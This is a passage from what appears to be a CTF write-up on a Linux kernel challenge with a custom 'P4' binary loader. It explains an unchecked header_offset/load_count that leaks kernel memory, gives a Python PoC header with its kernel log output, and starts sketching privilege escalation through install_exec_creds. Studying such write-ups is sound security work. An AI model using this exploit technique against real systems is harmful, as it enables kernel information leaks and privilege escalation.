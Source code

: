 ```c
    }
  }
  else{

.....
```
The problem is that it does not has bounds checking for `header_offset` and `load_count`, we can use `header_offset` to control the pointer:
`loads = (load *)&buf->magic[ (p4fmt *)(bprm->buf).header_offset ];`,
and over reading memory by setting up `load_count`,  therefore we can leak the content in `struct linux_binprm`.

PoC:
```python
binary = 'P4'                # MAGIC
binary += p8(0)              # version
binary += p8(1)              # arg
binary += p32( 5 )           # load_count
binary += p64( 0x80 - 0x18 ) # header_offset
```
Result:
```sh
/tmp $ ./leak
[    7.607129] vm_mmap(load_addr=0x0, length=0x0, offset=0x0, prot=0)
[    7.607460] vm_mmap(load_addr=0x7fffffffe000, length=0x100000001, offset=0x0, prot=3)
[    7.607952] vm_mmap(load_addr=0xffff9f160213d000, length=0x0, offset=0x7fffffffeff1, prot=0)
[    7.608132] vm_mmap(load_addr=0x0, length=0xffff9f16020c8b40, offset=0x800000, prot=0)
[    7.608315] vm_mmap(load_addr=0xfffffffffffff000, length=0x1, offset=0x0, prot=7)
[    7.608561] clear_user(addr=0xffffffffffffffff, length=0x1)
[    7.610219] leak[526]: segfault at 0 ip 0000000000000000 sp 00007fffffffef93 error 14
[    7.610786] Code: Bad RIP value.
Segmentation fault
/tmp $
```
#### Privilege escalation
For now, we can use kernel information leak to bypass kaslr, but how to achieve privilege escalation.
We can simplify the process of `load_p4_binary`:
1. Check for file format.
2. `flush_old_exec(bprm, P4MAG)`
3. `setup_new_exec(bprm)`
4. Process memory loading.
5. `install_exec_creds(bprm)`
6. `set_binfmt(&p4format)`
7. `setup_arg_pages(bprm, randomize_stack_top(STACK_TOP), 0LL)`
8. `finalize_exec(bprm)`
9. `start_thread(regs, p4_entry, bprm->p)`

`install_exec_creds(bprm)` is interesting, it will do `commit_creds(bprm->cred);` inside.
```c
void install_exec_creds(struct linux_binprm *bprm)
{
	security_bprm_committing_creds(bprm);

	commit_creds(bprm->cred);
	bprm->cred = NULL;

	if (get_dumpable(current->mm) != SUID_DUMP_USER)
		perf_event_exit_task(current);

	security_bprm_committed_creds(bprm);
	mutex_unlock(&current->signal->cred_guard_mutex);
}
```